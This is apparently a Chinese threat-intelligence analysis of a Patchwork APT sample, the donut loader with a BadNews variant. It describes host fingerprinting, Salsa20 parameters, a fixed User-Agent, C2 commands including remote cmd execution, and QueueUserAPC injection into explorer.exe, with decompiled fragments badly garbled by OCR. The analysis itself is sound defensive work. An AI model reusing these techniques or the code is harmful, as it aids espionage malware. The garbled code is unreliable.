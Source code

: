 通过分析后确认shellcode为Patchwork频繁使用的开源加载器donut，该加载器能够加载和执行多种类型载荷，在本次样本中最终运行的载荷为badnews变种  

本次发现的badnews变种主要利用插件下发的形式实现主要的功能，这导致其载荷的文件大小相比以往捕获的badnews样本更小。具体分析如下：  

获取MAC地址、用户名、主机私有ip  

将获取的MAC、用户名和私有IP拼接后计算其sha256值，在本样本中该值用来作为uid，对uid进行加密，后续该值在心跳及交互过程中均会进行回传。  

除上述外，还会获取的数据包括：pid和windows版本，将获取的数据进行加密后使用"\$"进行拼接，加密算法为base64-Salsa20-base64，其中Salsa20加密的相关参数如下：  

Key: WfqZP6j5IXWaZXJy0KyVh1KFPatF3Uod  

nonce: xKPiP4K9  

首次上线时，还将固定字符"Nexe"和硬编码的User-Agent"zc9k4OMihkyxpJIGR8CjxVgoBvv9PB"一起拼接后上传：  

qmemcpy(ProcName,"InternetCloseH",sizeof(ProcName));  
$\forall\bar{1}\bar{7}\left[5\right]=\bar{\Theta};$   
InternetCloseHandle $=$ GetProcAddress(hModule, ProcName);  
strcpy(v2θ,“InternetopenA");  
InternetopenA $=$ GetProcAddress(hModule,v20);  
v4=1000\*（rand(）%6+5）;  
$\yen5$ （（_int64（_fastcall\*)（const char\*，_QWORD，_QWORD，_QWORD，_DWORD))InternetOpenA)（"zc9k40MihkyxpJIGR8CjxVgoBvv9PB",0i64,0i64,0i64,0);  
if (v5 )break;  
Sleep(v4);  
strcpy(v17,“andle");  

### 使用固定User-Agent通信  

创建两个线程，一个为负责与服务端保持心跳，一个则负责从服务端接收数据并实现相关功能从服务端获取的数据经过解密后使用"|I"对其中的指令进行分割，支持的指令有：filelist、download、upload、uplexe和screenshot。除指令外解密的数据中还包含了对应功能需要使用的参数及组件下载地址。当服务端下发的指令为uplexe时执行参数中的cmd命令，若为其它时则需要从返回数据中提取出组件下载地址并下载，最终将组件加载执行：  

if //指令为uplexe时执行参数中的cmd命令if ( \*v29 == N\*&& $\forall\tilde{\mathbb{Z}}\tilde{\mathbb{Z}}[1]\quad==\mathrm{~\tilde{~}{~A~}~}^{\prime}\mathbb{A}^{\prime}$ 8&1v29[2]]goto LABEL_56;$v_{4}5=1$ _malloc_base(0x80eui64);memset(v45,θ，Bx8aeu164）;HIDWORD(1pWideCharStra) $=$ HIDWORD(V29);sub_148ee101e(（wchar_t\*)v45,0x4eBui64,（wchar_t\*)L"%s|1%s");LoDHoRD(lpWi deCharStra) $=\boxed{\hat{\alpha}}$ V46 $=$ （（int64（_fastcall\*)（_QWoRD，_QWORD,_Int64 （_fastcall \*)（char\*)，void \*,LPWSTR,_QWORD）)CreateThread）（0164,0164,sub_140003120, //uplexe -> cmdshellV45,lpWideCharStra,ei64);47 =60080164;  
else//其余命令通过下发对应的组件实现v45 =j_malloc_base(ex8eeui64）;memset（v45,0,0x8eeui64）;HIDWORD(1pWideCharStr_4)-HIDWORD(v63);sub_14eee1e1e(（wchar_t)v45,ex4eeui64,(wchar_t \*)L"%1s||%1s");LODHORD(1pWideCharStr_4）=0;v46=（（int64（fastcal1\*)（_QwORD，_QWORD,void（_fastcall \*)（char \*），void \*,LPWSTR_QWORD）)CreateThread）(0i64,0i64,sub_1488024c0, //others->加载组件并执行y45,lpwidecharstr_4,0164);v47= 90688164;  

## 指令分支  

下载的组件使用QueueUserAPC注入到explorer.exe中：  

((vcIDAView-Atcall\*)（_int64))InternetCloseHandle)（v14);   
v52 = 104;   
strepy(v64, "explorer.exe");   
v530164;   
v59 $=$ v54 $=$ 0i64;   
v51 =0164;   
v55 $=$ 0164;   
v56 $=$ 0i64;   
V57 $\vDash$ 0164;   
v58 $=$ 0164;   
v58 $=$ 0i64;   
strcpy(v76,"WaitForSingle0bject");   
ProcAddress $=$ GetProcAddress(qword_14ee2ED6e, v76);   
strcpy(v67, "CreateProcessA");   
CreateProcessA $=$ GetProcAddress(qword_14e82ED60, v67);   
strcpy(vG8, "VirtualAllocEx");   
VirtualAllocEx $\lrcorner$ GetProcAddress(qword_14ee2ED60,v68);   
strcpy(v74, "writeProcessMemory");   
WriteProcessMenory $=$ GetProcAddress(qword_14002ED60,v74);   